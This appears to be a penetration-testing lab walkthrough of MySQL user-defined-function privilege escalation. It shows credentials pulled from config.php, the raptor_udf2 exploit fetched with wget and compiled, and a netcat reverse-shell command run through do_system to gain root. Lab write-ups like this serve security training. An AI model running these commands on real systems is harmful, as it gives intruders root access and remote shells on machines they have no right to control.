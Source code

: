 #### -Navigated to directory "/var/www" and found "config.php" file and cat'd the file and found user "root" and password "EscalateRaftHubris123":

![](../Images/Pasted%20image%2020220605135538.png)

#### -Typed "netsat –tulpn" and found port "3306" (mysql) listening on localhost:

![](../Images/Pasted%20image%2020220605135719.png)

#### -Typed "mysql –u root –p" and logged in with the found password for mysql "EscalateRaftHubris123":

![](../Images/Pasted%20image%2020220605135743.png)

#### -Googled "mysql root privilege escalation" as I was able to login with root in Mysql and found the following webpage listing the steps to escalate privileges:

![](../Images/Pasted%20image%2020220605141120.png)
![](../Images/Pasted%20image%2020220605150109.png)
![](../Images/Pasted%20image%2020220605150123.png)
![](../Images/Pasted%20image%2020220605150134.png)
![](../Images/Pasted%20image%2020220605150150.png)
![](../Images/Pasted%20image%2020220605150158.png)

#### -Typed "searchsploit -m linux/local/1518.c" to place exploit on my kali machine

#### -Started a http server on my kali machine to host the "1518.c" file

#### -Navigated to "/var/www" directory on target machine as it was writeable

#### -Typed "wget [kali IP]:8295/1518.c" and the shared object file was downloaded to the target machine

#### -Typed "gcc -g -c 1518.c -o raptor_udf2.o -fPIC" and then "gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc" to be compiled into a shared object file

#### -Typed "mysql –u root –p" and logged in with the found password for mysql "EscalateRaftHubris123" to login into mysql:

![](../Images/Pasted%20image%2020220605152058.png)

#### -Typed "show variables like '%plugin%';" to show the current plugin directory in the database

![](../Images/Pasted%20image%2020220605152325.png)

#### -Typed "use mysql;"

#### -Typed "create table foo(line blob);"

#### -Typed "insert into foo values(load_file('/var/www/raptor_udf2.so'));"

#### -Typed "select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';"

#### -Typed "create function do_system returns integer soname 'raptor_udf2.so';"

#### -Typed "select * from mysql.func;" to conirm the "raptor_udf2.so" shared object file got placed in the do_system function table:

![](../Images/Pasted%20image%2020220605153153.png)

#### -Started a netcat listner on my kali machine listening on port 8295

#### -Typed "select do_system('nc 192.168.49.101 8295 -e /bin/bash');" in mysql database on target machine and received a root shell:

![](../Images/Pasted%20image%2020220605153640.png)

